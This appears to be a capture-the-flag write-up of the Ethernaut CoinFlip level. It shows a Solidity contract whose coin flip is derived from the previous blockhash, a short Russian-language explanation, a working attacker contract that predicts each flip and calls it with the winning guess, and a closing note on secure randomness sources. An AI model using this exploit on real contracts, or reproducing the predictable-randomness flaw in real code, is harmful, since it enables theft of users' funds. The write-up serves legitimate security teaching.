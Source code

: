![](https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg)

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
очевидно, что зная номер блока мы можем предсказывать выпадение монетки. потому надо просто написать код, который будет за нас производить вычисления

solution:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ICoinFlip {
	function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
	uint256 public consecutiveWins = 0;
	uint256 lastHash;
	uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

	function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {	
		uint256 blockValue = uint256(blockhash(block.number - 1));
		if (lastHash == blockValue) {
			revert();
		}	
		lastHash = blockValue;
		uint256 coinFlip = blockValue / FACTOR;
		bool side = coinFlip == 1 ? true : false;
		bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
		
		if (isRight) {
			consecutiveWins++;
		} else {
			consecutiveWins = 0;
		}
		return consecutiveWins;		
	}
}
```

___
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).